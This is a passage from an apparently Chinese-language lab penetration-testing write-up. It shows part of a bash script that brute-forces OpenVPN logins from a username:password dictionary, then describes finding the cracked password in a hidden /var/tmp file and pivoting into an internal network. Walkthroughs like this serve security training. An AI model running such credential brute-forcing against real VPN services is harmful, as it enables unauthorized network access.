```bash

    for vpn_file in $openvpn_binary_path $openvpn_config_file $dict_file
    do
        if [ ! -f "$vpn_file" ]
        then
            echo "$vpn_file : Dosyasi Sistemde Bulunamadi !!!"
            exit 3
        fi
    done


    cat $dict_file | while read -r line
    do
        user_name="`echo "$line" | cut -d ":" -f1`"
        password="`echo "$line" | cut -d ":" -f2`"

        result="`brute_force "$user_name" "$password"`"
        echo "$result"

        echo "$result" | grep -Eq "^ERROR"
        if [ $? -eq 0 ]
        then
            break
        fi  
    done
}



if [ ! $# -eq 2 ]
then
    echo "Kullanim: $0 <dict_file> <vpn_config_file>"
    exit 1
else
    dict_file="$1"
    openvpn_config_file="$2"

    main "$dict_file" 
fi
```

不过在`/var/tmp/.6469636d`中找到了`aut.txt`,和刚才爆破结果一样密码是`starwars`：

![Alt text](/img/game/TESTLAB/TESTLAB11/1512070950168.png)

连接第二层openvpn,从`192.168.101.0/24`进入了`172.16.0.0`：

